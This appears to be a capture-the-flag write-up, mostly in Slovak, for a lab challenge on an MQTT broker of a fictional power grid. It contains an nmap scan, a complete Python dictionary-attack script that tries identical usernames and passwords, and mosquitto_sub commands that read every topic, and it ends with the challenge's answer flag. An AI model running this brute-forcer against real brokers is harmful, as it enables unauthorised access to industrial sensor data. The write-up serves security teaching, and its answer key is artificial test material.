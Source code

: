 # Zadanie

Hi, emergency troubleshooter,

sensor data from the distribution network are being continuously transmitted to `broker.powergrid.tcc`. However, the outsourced provider went bankrupt last week, and no one else has knowledge of how to access these data. Find out how to regain access to the sensor array data.

Stay grounded!

## Riešenie

Ako už zadanie nepovedá, zrejme pôjde o MQTT a bude otvorený port 1883, overím cez nmap. 

```shell
$ nmap -Pn -p 1883 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-20 20:05 CEST
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.017s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE SERVICE
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

Je to tak, ale pri pokuse o pripojenie mi hlási 

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -t '#' -v
Connection error: Connection Refused: not authorised.
```

Meno a heslo však neviem, zrejme bude treba brute-forceovať, resp. použiť nejaký slovníkový útok. Najčastejšie používam list common.txt a rockyou.txt. Skúsim menší, common.txt a vzhľadom na to, že neviem ani meno, ani heslo, skúsim najprv tak, že meno aj heslo budú rovnaké.

```python
# mqtt_brute_fixed.py
import time, random, string, sys
from threading import Event
import paho.mqtt.client as mqtt

HOST = "broker.powergrid.tcc"
PORT = 1883
CONNECT_TIMEOUT = 4.0
MSG_WAIT = 2.0
with open("common.txt", "r") as f:
    creds = [line.strip() for line in f if line.strip()]

def try_creds(up):
    connect_event = Event()
    message_event = Event()
    rc_holder = {"rc": None}
    msg_preview = {"topic": None, "payload": None}

    cid = "ctf-" + ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(6))

    def on_connect(client, userdata, flags, rc):
        rc_holder["rc"] = rc
        if rc == 0:
            client.subscribe("#", qos=0)
        connect_event.set()

    def on_message(client, userdata, msg):
        msg_preview["topic"] = msg.topic
        try:
            msg_preview["payload"] = msg.payload.decode("utf-8", errors="replace")
        except Exception:
            msg_preview["payload"] = repr(msg.payload[:120])
        message_event.set()
        client.disconnect()

    client = mqtt.Client(client_id=cid, protocol=mqtt.MQTTv311, clean_session=True)
    if up:
        client.username_pw_set(up, up)

    client.on_connect = on_connect
    client.on_message = on_message

    try:
        client.connect(HOST, PORT, keepalive=30)
    except Exception as e:
        print(f"[!] Connection error for {up}:{up} -> {e}")
        return False, None

    client.loop_start()
    connected = connect_event.wait(CONNECT_TIMEOUT)
    if not connected:
        client.loop_stop()
        return False, None

    rc = rc_holder["rc"]
    if rc != 0:
        client.loop_stop()
        return False, rc

    got_msg = message_event.wait(MSG_WAIT)
    client.loop_stop()

    if got_msg:
        tp = msg_preview["topic"]
        pl = msg_preview["payload"]
        print(f"[+] SUCCESS {up}:{up} -> sample: {tp} {pl[:200]!r}")
        return True, rc
    else:
        print(f"[i] Auth ok for {up}:{up} (rc={rc}) but no $SYS messages within {MSG_WAIT}s")
        return True, rc

if __name__ == "__main__":
    for name in creds:
        print(f"[*] Trying {name}:{name}")
        ok, rc = try_creds(name)
        if ok:
            print(f"\n[!] WIN: username='{name}' password='{name}' (rc={rc})\n")
            sys.exit(0)
    print("[-] No creds matched.")
```

Skript sa teda podaril, meno aj heslo sú rovnaké, posledné riadky z výstupu sú

```log
...
[*] Trying reader:reader
[+] SUCCESS reader:reader -> sample: sensors/dev3 'TEST{84GL-Fm58-wE4P-rB54}'

[!] WIN: username='reader' password='reader' (rc=0)
```

teraz použijem `mosquitto_sub` a uvidím, čo sa tam publishuje.

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -u reader -P reader -t '#' -v
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
sensors/prod FLAG{0hs0-SiJm-TO5B-46HD}
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
```

Vac mi netreba. Vlajka ma vlastný topic, stačí počkať max 4s a vlajka sa objaví.

## Vlajka

    FLAG{0hs0-SiJm-TO5B-46HD}

